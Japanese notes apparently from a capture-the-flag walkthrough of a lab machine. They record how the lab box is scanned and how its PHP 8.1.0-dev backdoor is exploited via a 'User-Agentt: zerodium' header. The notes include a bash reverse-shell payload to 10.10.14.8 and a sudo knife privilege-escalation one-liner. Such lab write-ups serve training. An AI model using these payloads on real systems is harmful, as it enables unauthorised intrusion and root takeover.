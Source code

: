 - nmap 
	- 22 ssh
	- 80 http
- ブラウザで確認
- gobusterでディレクトリを検索
```
gobuster dir -u http://10.10.10.242 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -o gobuster.out
```
- BurpでReaponseを見てみると「X-Powered-By:」がPHP/8.1.0-devになっている
- googleで「PHP/8.1.0-dev」を検索するとExploitが見つかる
- このバックドアを実行するにはUser-Agentt、「zerodium」で始まるヘッダーが必要で、その後にあるものはすべて PHP コードとして実行される
```
User-Agent：
  ↓
User-Agentt：zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'");
```
- 初期シェルが取れる
- sudo -lを実行すると
```
(root) NOPASSWORD: /usr/bin/knife
```
- GTFOBinで検索
```
sudo knife exec -E 'exec "/bin/sh"'
```
- 権限昇格できる